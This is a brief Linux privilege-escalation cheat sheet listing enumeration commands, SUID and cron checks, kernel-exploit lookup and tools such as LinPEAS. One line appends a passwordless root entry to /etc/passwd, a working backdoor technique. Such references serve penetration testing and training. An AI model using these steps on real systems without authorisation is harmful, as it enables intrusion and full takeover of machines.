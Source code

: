 # Linux Privilege Escalation

## Basic Enumeration

id
sudo -l
uname -a
SUID Binaries

find / -perm -4000 2>/dev/null
Writable /etc/passwd

echo 'root::0:0:root:/root:/bin/bash' >> /etc/passwd
Cron Jobs

cat /etc/crontab
Kernel Exploits

searchsploit linux kernel <version>
Tools
LinPEAS: linpeas.sh

Linux Exploit Suggester: linux-exploit-suggester.sh


